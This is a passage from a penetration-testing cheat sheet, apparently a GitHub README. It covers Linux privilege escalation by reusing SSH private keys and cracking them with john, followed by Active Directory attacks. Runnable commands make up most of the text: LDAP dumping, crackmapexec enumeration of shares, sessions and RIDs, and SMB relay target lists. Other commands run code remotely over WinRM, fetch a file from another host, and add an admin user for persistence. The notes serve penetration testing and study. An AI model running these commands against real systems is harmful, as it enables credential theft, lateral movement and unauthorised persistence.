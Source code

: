 16. Abuse SSH private keys
```bash
find / -name authorized_keys 2> /dev/null              // Any Public Keys?
find / -name id_rsa 2> /dev/null                       // Any SSH private keys? 

Copy id_rsa contents of keys found with the above command
Create a local file on your box and paste the content in
chmod 600 <local_file>
ssh -i <local_file> user@IP

// Is the key password protected?

ssh2john <local_file> > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
```

17. Vulnerable Sudo
- Detection: `sudo -V` // Get sudo version sudo -l
- CVE-2019-14287 and CVE-2019-16634

# Active Directory Pentesting
## Enumeration (use LdapDomainDump and crackmapexec to enumerate)
- Precondition is to get domainname from NMAP: `nmap -A 192.168.1.50 -Pn` -> under `NetBIOS_Domain_Name: PENTESTING`
- First, detect if the SMB signing is enabled, which helps us identify machines that could be targeted for stealing hashes and relay attacks.

### LdapDomainDump
- Download: `git clone https://github.com/dirkjanm/ldapdomaindump`
- got ldap dump: `python3 ldapdomaindump.py --user DOMAIN\\username -p Password12345 ldap://x.x.x.x:389 --no-json --no-grep -o data`
- find Domain admin `DONT_REQ_PREAUTH` -> crack hash offline

### enum4linux
- Built-in in kali linux
- Full target AD info: `enum4linux -u ippsec -p Password12345 -a 192.168.1.50`
- Provides Domain SID, passwords of some users, share enumerations

### crackmapexec
- Built-in in kali linux
- enumerate shares (check for READ/WRITE permissions): `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --local-auth --shares`
- enumerate logged on users (check if they are domain admin): `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --loggedon-users`
- RID enumeration: `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --rid-brute`
- local grp enumeration: `crackmapexec smb 192.168.1.50-192.168.1.55 -u ippsec -p Password12345 --local-groups`
- Get the active sessions: `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --sessions`
- Generate a list of relayable hosts (SMB Signing disabled): `crackmapexec smb 192.168.1.0/24 --gen-relay-list output.txt`
- Get the password policy: `crackmapexec smb 192.168.215.104 -u 'user' -p 'PASS' --pass-pol`
- Command execution(e.g. wget,ipconfig, whoami/groups): `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -X 'Invoke-WebRequest -Uri "http://192.168.1.223:8000/users.txt"'`
- create new user for persistence(in case ippsec change pw): `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -x 'net user /add admin Password12345'`
- add user to localgroup: `crackmapexec winrm 192.168.1.54 -u ippsec -p Password12345 -x 'net local group administrators'`
